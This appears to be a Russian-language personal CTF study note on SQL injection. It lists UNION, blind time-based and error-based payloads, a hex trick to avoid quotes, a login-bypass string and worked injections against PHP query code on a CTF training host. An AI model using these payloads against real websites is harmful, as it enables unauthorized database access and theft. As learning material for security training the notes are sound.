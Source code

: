 материалы по SQL смотри в [[SQL]]
полезный сайт: https://sqlwiki.netspi.com/
утилита: [[SQLmap]]
## общий синтаксис:
-- знак комментария
/* * /  тоже знак комментария, им можно заменять пробелы
`SELECT column_name(s) FROM table1`  - запрос колонки _column_name(s)_ в таблице _table1_
`SELECT * FROM flag` - запрос всех столбцов таблицы flag
`SELECT * FROM flag UNION SELECT * FROM table1` - запрос всех столбцов таблицы _flag_ и всех столбцов таблицы _table1_. Важно чтобы кол-во столбцов было одинаковое в обоих таблицах.
`SELECT 0, flag, 1 FROM flag UNION SELECT * FROM table1` - если количество столбцов разное можно замеенить их в другой таблице на любые символы, например 0 и 1.
`SELECT flag FROM flag WHERE part = 0` - поиск по значению столбца (строка в столбце part должна быть нулем).
`SELECT * FROM products WHERE label LIKE '%a'` - поиск по значению столбца (в данном случае оно должно заканчиваться на а или А).
`SELECT * FROM information_schema.tables` - служебная схема таблиц
`SELECT group_concat(table_name) FROM information_schema.tables` - соединение всех строк столбца в одну большую строку
`SELECT * FROM flag JOIN (SELECT '1') AS a JOIN (SELECT '2') AS b` - добавление столбцой из других таблиц/ просто столбцов

### Blind injection:
`IF(SUBSTRING((SELECT flag FROM flag), 5, 1) = 's', SLEEP(5), null)` - если пятая буква строки в столбце flag совпадает с s, то страница будет грузиться 5 секунд, если нет - сразу загрузится.

### Error based injection:
`SELECT extractvalue(rand(),concat(0x3a,(SELECT flag FROM flag)))` -пытается распарсить как xml, но оно не может распарсится. Выплевывает ошибку, т. е. место в которой она произошла.


SQL иннекции также можно использовать вводя в http запрос на странице:
`http://kslweb1.spb.ctf.su/sqli/bypass3/product_id=1%20union%20select%20flag,%201,%201%20from%20flag`

Если нельзя использовать кавычки, можно переводить поле в hex. например: 
name = 'b548d45080b9d110' преобразовать в 
name like 0x62353438643435303830623964313130



### Примеры:
SELECT flag as label, 1 as description FROM flag - переименовали столбец flag в label на время запроса и добавили столбец description со значениями 1

|label|description|
|---|---|
|KSL{2d680e727363a66d9e661d3a3e8eb6bd}|1|


a' UNION SELECT flag, 0, 1 FROM flag; -- qwe
**Query:** `SELECT * FROM products WHERE label LIKE '%a' UNION SELECT flag, 0, 1 FROM flag; -- qwe%' OR description LIKE '%a' UNION SELECT flag, 0, 1 FROM flag; -- qwe%'` - закрыли кавычку, написали свою команду.


a" ' )) UNION SELECT 0, flag, 1 FROM flag; -- qwe
**Query:** `"SELECT * FROM products WHERE ((label LIKE '%" . $query . "%') OR (label REGEXP '" . $query . "')) OR ((description LIKE '%" . $query . "%') OR (description REGEXP '" . $query . "'))"`
закрыли предыдущую команду и написали свою.


dashashink@yandex.ru" ', (SELECT flag FROM flag WHERE part = 0)); -- q
**Query:** 
`"INSERT INTO messages (id, time, ip, name, email, message) VALUES ('0', NOW(), '" . $ip . "', '" . $name . "', '" . $email . "', '" . $message . "')"`


можно подбирать цифры в запросе:
```
$res = mysql_query("SELECT * FROM users WHERE login = '$login' AND password = '$password'");  
    if (mysql_num_rows($res) > 0) {      
	    $_SESSION['loggedIn'] = true;
	}
```
запрос:
`12' AND 1=2 UNION SELECT flag, 1, 2 FROM flag WHERE flag LIKE '6908819' -- q`

можно найти имя нужной таблицы в базе таблиц:
`$res = debug_mysql_query("SELECT (" . $_GET['equ'] . ")");`
запрос:
`(SELECT group_concat(table_name) FROM information_schema.tables)`


